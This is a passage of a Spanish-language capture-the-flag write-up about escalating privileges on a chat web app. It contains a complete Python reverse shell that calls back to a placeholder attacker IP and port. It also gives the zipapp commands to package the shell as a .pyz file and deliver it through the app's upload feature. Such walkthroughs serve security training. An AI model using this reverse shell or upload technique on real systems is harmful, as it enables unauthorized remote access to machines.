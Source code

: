 ```
URL = http://chat.chatme.dl/uploads/shell.png
```

## Escalate user system

Por lo que haremos lo siguiente, la interfaz de chat nos recuerda a `Whatsapp`, si bien sabemos la misma aplicacion tuvo una vulnerabilidad en la que se podian subir archivos con la extension `.pyz` la cual se hace comprimiendo un archivo `.py` y se ejecutaba de forma interna pudiendo hacer practicamente lo que se quisiera, por lo que probaremos hacerlo.

```shell
nano revshell.py

#Dentro del nano
#!/bin/python3

# reverse_shell.py
import socket
import subprocess
import os

# Cambia la IP y el puerto a los de tu máquina atacante
HOST = '<IP>'
PORT = <PORT>

def reverse_shell():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    # Redirige la entrada, salida y errores al socket
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    
    # Inicia una shell interactiva
    subprocess.call(['/bin/sh', '-i'])

reverse_shell()
```

Lo comprimiremos de la siguiente forma:

```shell
mkdir reverseshell
mv revshell.py reverseshell
python3 -m zipapp reverseshell -o revshell.pyz -m "revshell:revshell"
```

Y esto nos generara el archivo `revshell.pyz` el cual subiremos a la pagina dandole a `Browser` y despues a `Send`.

Solo tendremos que esperar entorno a 1 minuto para que nos de la shell y ya estariamos dentro de la maquina como el usuario `system`.
